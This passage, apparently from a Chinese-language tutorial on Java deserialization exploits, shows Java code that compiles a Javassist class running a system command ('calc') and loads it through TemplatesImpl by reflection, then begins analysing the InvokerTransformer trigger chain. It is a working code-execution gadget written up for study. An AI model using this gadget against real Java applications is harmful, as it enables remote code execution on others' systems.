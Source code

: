 ```java
        CtClass cc=pool.makeClass("Calc");
        // 设置父类为AbstractTranslet
        cc.setSuperclass(superClass);

        // 创建类的静态初始化块，插入恶意代码
        CtConstructor constructor=cc.makeClassInitializer();
        // 在静态初始化块中执行系统命令打开计算器
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");

        // 将恶意类转换为字节码
        byte[] bytecode=cc.toBytecode();

        // 创建TemplatesImpl对象用于触发恶意代码执行
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();

        // 使用反射设置TemplatesImpl的_name字段
        Field name = aClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"Calc");

        // 使用反射设置TemplatesImpl的_bytecodes字段，注入恶意字节码
        Field bytecodes = aClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates,new byte[][]{bytecode});

        // 使用反射设置TemplatesImpl的_tfactory字段
        Field tfactory = aClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());

        // 调用newTransformer方法触发恶意代码执行
        // 这会触发调用链: newTransformer() -> getTransletInstance() -> defineTransletClasses() -> TransletClassLoader.defineClass()
        templates.newTransformer();
    }
}

```

触发计算器

## 触发链分析

### InvokerTransformer

通过`InvokerTransformer`的反射机制，间接调用`TemplatesImpl`的`newTransformer`方法

```java
InvokerTransformer newTransformer = new InvokerTransformer("newTransformer", null, null);
        newTransformer.transform(templates);
```
